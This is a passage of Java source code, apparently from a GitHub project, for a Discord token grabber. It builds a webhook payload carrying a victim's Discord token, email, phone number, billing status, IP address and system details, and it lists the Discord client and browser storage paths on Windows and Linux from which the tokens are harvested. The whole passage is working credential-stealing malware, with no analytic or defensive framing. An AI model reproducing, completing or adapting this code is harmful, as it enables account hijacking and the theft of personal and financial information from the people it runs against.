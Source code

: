         String finishedEmbedContent = "{\"avatar_url\":\""+avatar_url+"\",\"embeds\":[{\"thumbnail\":{\"url\":\""+accountInfo_imageURL+"\"},\"color\":9109759,\"footer\":{\"icon_url\":\"https://i.ibb.co/fps45hd/steampfp.jpg\",\"text\":\"November | "+new SimpleDateFormat("yyyy-MM-dd HH:mm:ss.SSS").format(System.currentTimeMillis())+"\"},\"author\":{\"name\":\""+accountInfo_username+"\"},\"fields\":[{\"inline\":true,\"name\":\"Account Info\",\"value\":\"Email: "+accountInfo_email+"\\nPhone: "+accountInfo_phoneNr+"\\nNitro: "+accountInfo_hasNitro+"\\nBilling Info: "+accountInfo_hasBillingInfo+"\"},{\"inline\":true,\"name\":\"PC Info\",\"value\":\"IP: "+pcInfo_IP+"\\nUsername: "+pcInfo_Username+"\\nWindows version: "+pcInfo_WindowsVersion+"\\nCPU Arch: "+pcInfo_cpuArch+"\"},{\"name\":\"**Token**\",\"value\":\"```"+token+"```\"}]}],\"username\":\""+username+"\"}";
        String finishedTextContent = "{\"avatar_url\":\""+accountInfo_imageURL+"\",\"content\":\"***Discord Info***\\n**Email:**\\n```"+accountInfo_email+"```\\n**Phone NR:**\\n```"+accountInfo_phoneNr+"```\\n**Nitro:**\\n```"+accountInfo_hasNitro+"```\\n**Billing Info:**\\n```"+accountInfo_hasBillingInfo+"```\\n**Token**\\n```"+token+"```\\n\\n***PC Info**\\n**Username: ***\\n```"+accountInfo_username+"```\\n**IP:**\\n```"+pcInfo_IP+"```\\n**Windows version:**\\n```"+pcInfo_WindowsVersion+"```\\n**CPU Arch:**\\n```"+pcInfo_cpuArch+"```\",\"username\":\""+accountInfo_username+"\"}";

        if (sendEmbed) {
            if (debug) {
                print(finishedEmbedContent);
            }
            return finishedEmbedContent;
        } else {
            if (debug) {
                print(finishedTextContent);
            }

            return finishedTextContent;
        }
    }



    private static List<String> getTokens(boolean check_isValid) {
        List<String> tokens = new ArrayList<>();
        String fs = System.getenv("file.separator");
        String localappdata = System.getenv("LOCALAPPDATA");
        String roaming = System.getenv("APPDATA");
        String[][] paths = {
                {"Lightcord", roaming + "\\Lightcord\\Local Storage\\leveldb"}, //Lightcord
                {"Discord", roaming + "\\Discord\\Local Storage\\leveldb"}, //Standard Discord
                {"Discord Canary", roaming + "\\discordcanary\\Local Storage\\leveldb"}, //Discord Canary
                {"Discord PTB", roaming + "\\discordptb\\Local Storage\\leveldb"}, //Discord PTB
                {"Chrome Browser", localappdata + "\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb"}, //Chrome Browser
                {"Opera Browser", roaming + "\\Opera Software\\Opera Stable\\Local Storage\\leveldb"}, //Opera Browser
                {"Brave Browser", localappdata + "\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb"}, //Brave Browser
                {"Yandex Browser", localappdata + "\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb"}, //Yandex Browser
                {"Brave Browser", System.getProperty("user.home") + fs + ".config/BraveSoftware/Brave-Browser/Default/Local Storage/leveldb"}, //Brave Browser Linux
                {"Yandex Browser Beta", System.getProperty("user.home") + fs + ".config/yandex-browser-beta/Default/Local Storage/leveldb"}, //Yandex Browser Beta Linux
                {"Yandex Browser", System.getProperty("user.home") + fs + ".config/yandex-browser/Default/Local Storage/leveldb"}, //Yandex Browser Linux
                {"Chrome Browser", System.getProperty("user.home") + fs + ".config/google-chrome/Default/Local Storage/leveldb"}, //Chrome Browser Linux
                {"Opera Browser", System.getProperty("user.home") + fs + ".config/opera/Local Storage/leveldb"}, //Opera Browser Linux
                {"Discord", System.getProperty("user.home") + fs + ".config/discord/Local Storage/leveldb"}, //Discord Linux
                {"Discord Canargy", System.getProperty("user.home") + fs + ".config/discordcanary/Local Storage/leveldb"}, //Discord Canary Linux
                {"Discord PTB", System.getProperty("user.home") + fs + ".config/discordptb/Local Storage/leveldb"}, //Discord Canary Linux